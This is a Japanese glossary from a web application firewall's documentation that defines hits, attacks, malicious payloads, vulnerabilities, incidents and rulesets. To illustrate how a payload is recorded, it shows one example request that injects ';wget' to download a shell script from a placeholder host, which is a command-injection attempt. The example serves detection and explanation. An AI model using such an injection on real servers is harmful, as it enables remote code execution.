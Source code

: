# 用語集

この用語集では、Wallarmの主要なエンティティを説明し、プラットフォームの理解を深めるための情報を提供します。

## ヒット

ヒットとは、フィルタリングノードによって付与されたメタデータを含むシリアライズされた悪意のあるリクエストです。例：

![ヒット例](images/user-guides/events/analyze-attack-raw.png)

[ヒットパラメーターの詳細](user-guides/events/check-attack.md#attack-analysis_1)

## 攻撃

攻撃とは、単一のヒットまたは[グループ化](user-guides/events/grouping-sampling.md#grouping-of-hits)された複数のヒットです。

シングルヒットを含む攻撃の例：

![シングルヒットを含む攻撃](images/glossary/attack-with-one-hit-example.png)

複数ヒットを含む攻撃の例：

![複数ヒットを含む攻撃](images/glossary/attack-with-several-hits-example.png)

攻撃の理解と解析の方法については[詳細](user-guides/events/check-attack.md)を参照してください。

## 悪意のあるペイロード

悪意のあるペイロードとは、元のリクエストの一部で、次の要素を含みます：

* リクエスト内で検出された攻撃サイン。複数の同一攻撃タイプのサインがリクエスト内で検出された場合、最初のサインのみがペイロードに記録されます。
* 攻撃サインのコンテキスト。コンテキストとは、検出された攻撃サインの前後にあるシンボルの集合です。ペイロードの長さに制限があるため、攻撃サインがペイロード全体の長さの場合はコンテキストが省略されることがあります。

例えば：

* リクエスト:

    ```bash
    curl localhost/?23036d6ba7=%3Bwget+http%3A%2F%2Fsome_host%2Fsh311.sh
    ```
* 悪意のあるペイロード:

    ```bash
    ;wget+http://s
    ```

このペイロードにおいて、`;wget+`は[RCE](attacks-vulns-list.md#remote-code-execution-rce)攻撃サインであり、ペイロードの他の部分は攻撃サインのコンテキストです。

攻撃サインは[behavioral attacks](about-wallarm/protecting-against-attacks.md#behavioral-attacks)の検出に使用されないため、behavioral attacksの一部として送信されるリクエストは空のペイロードになります。

## 脆弱性

脆弱性とは、ウェブアプリケーションの構築や実装時に過失または情報不足により発生するエラーで、情報セキュリティリスクにつながる可能性があります。

情報セキュリティリスクには以下のものがあります：

* 無許可のデータアクセス（例：ユーザーデータの読み取りおよび変更）。
* サービス拒否攻撃。
* データ破損など。

インターネットトラフィックは脆弱性の検出に利用される可能性があり、Wallarmはその他の機能とともにこれを行います。

## セキュリティインシデント

セキュリティインシデントとは、脆弱性の悪用が発生した事象です。インシデントは、確認された脆弱性を標的とした[攻撃](#attack)です。

インシデントは攻撃と同様に、システム外部のエンティティであり、システム自体ではなく外部インターネットの特徴です。既存の脆弱性を狙った攻撃は少数ですが、情報セキュリティの観点から極めて重要です。Wallarmは既存の脆弱性を狙った攻撃を自動的に検出し、個別のオブジェクトであるインシデントとして表示します。

## 循環バッファ

循環バッファは、一つの固定サイズバッファを、連結されたかのように使用するデータ構造です。
[Wikipediaを参照](https://en.wikipedia.org/wiki/Circular_buffer).

## カスタムルールセット（旧称LOM）

カスタムルールセットとは、Wallarm CloudからWallarmノードにダウンロードされるコンパイル済みのセキュリティルールのセットです。

カスタムルールを用いることで、トラフィック処理のための個別のルールを設定できます。例えば：

* Wallarm Cloudにアップロードする前に機微なデータをマスクします
* 正規表現に基づく攻撃インジケーターを作成します
* 有効な脆弱性を悪用するリクエストをブロックする仮想パッチを適用します
* 特定のリクエストでの攻撃検出を無効にします、等。

カスタムルールセットはデフォルトでは空ではなく、Cloudに登録されたすべてのクライアントのために作成されたルールが含まれており、例として[**Settings → General** tab](admin-en/configure-wallarm-mode.md#general-filtration-rule-in-wallarm-console)の値を用いたフィルトレーションモードルールが挙げられます。

[カスタムルールセットの詳細](user-guides/rules/rules.md)

## 無効リクエスト

フィルタノードによって確認され、LOMルールに一致しなかったリクエストです。

## リバースプロキシ

リバースプロキシは、クライアントに代わってサーバーからリソースを取得し、そのリソースをWebサーバーから発信されたかのようにクライアントに返すプロキシサーバーの一種です。
[Wikipediaを参照](https://en.wikipedia.org/wiki/Reverse_proxy).

## 証明書発行機関

証明書発行機関とは、デジタル証明書を発行するエンティティです。
[Wikipediaを参照](https://en.wikipedia.org/wiki/Certificate_authority).